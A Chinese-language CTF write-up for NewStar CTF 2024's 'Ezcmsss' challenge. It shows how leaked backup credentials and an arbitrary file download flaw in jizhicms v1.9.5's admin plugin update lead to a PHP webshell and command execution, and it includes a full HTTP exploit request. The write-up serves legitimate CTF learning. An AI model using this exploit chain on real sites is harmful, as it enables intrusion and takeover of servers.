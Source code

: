 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ezcmsss

在首页源码里找到提示，需要查看备份文件

![首页源码](/assets/images/wp/2024/week4/ezcmsss_1.png)

访问 `/www.zip` 获得源码备份文件，在 `readme.txt` 获得 jizhicms 版本号为 v1.9.5，在 `start.sh` 获得服务器初始化时使用的管理员账号和密码

![管理员账号密码](/assets/images/wp/2024/week4/ezcmsss_2.png)

同时在 `start.sh` 中有备注提示访问 `admin.php` 进入管理页面，然后使用上面的账号密码登录

![admin.php](/assets/images/wp/2024/week4/ezcmsss_3.png)

上网搜索可以发现 jizhicms v1.9.5 有一个管理界面的任意文件下载漏洞

在 <strong>扩展管理 » 插件列表</strong> 中发现只有一个插件，这是由于容器不出网导致的，因此我们不能按照网上的方式，使用公网的 URL 链接下载文件，而是需要在将 `.zip` 文件上传到题目容器里，然后通过任意文件下载漏洞本地下载、解压

![插件列表](/assets/images/wp/2024/week4/ezcmsss_4.png)

有几种上传 `.zip` 文件的方法，都可以获取到文件保存的目录，其中一种是在 <strong>栏目管理 » 栏目列表 » 新增栏目</strong> 中添加附件，上传构造好的包含 PHP 马的压缩包

![上传压缩包](/assets/images/wp/2024/week4/ezcmsss_5.png)

抓包获得保存路径为 `/static/upload/file/20241016/1729079175871306.zip`，测试可以访问

在插件那边进行抓包，构造请求如下<span data-desc>（可以照着网上的漏洞复现，依葫芦画瓢，`filepath` 随便起就行）</span>

```http
POST /admin.php/Plugins/update.html HTTP/1.1
Host: eci-2zedm1lw513xbz1d46c6.cloudeci1.ichunqiu.com
Content-Length: 126
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie:PHPSESSID=0k7pqbk4chhak4ku5aqbfhe7b3

filepath=apidata&action=start-download&type=0&download_url=http%3a//127.0.0.1/static/upload/file/20241016/1729079175871306.zip
```

:::warning 注意
这里的 PHPSESSID 记得换成自己的
:::

![发包](/assets/images/wp/2024/week4/ezcmsss_6.png)

继续构造解压的请求，修改 `action` 即可，解压完的文件在 `/A/exts`

![解压](/assets/images/wp/2024/week4/ezcmsss_7.png)

访问 `/A/exts/shell.php`，可以直接进行命令执行

:::warning 注意
这里的路径文件名就是上面下载的压缩包里面的文件，如果压缩包里有多个文件，解压会在 `exts` 下建立一个和上面 POST 参数 `filepath` 的值一致的文件夹，php 马需要在此目录下访问
:::

![shell](/assets/images/wp/2024/week4/ezcmsss_8.png)

flag 在根目录下的 `/flllllag` 文件，用通配符读取即可<span data-desc>（如 `/fl*`）</span>
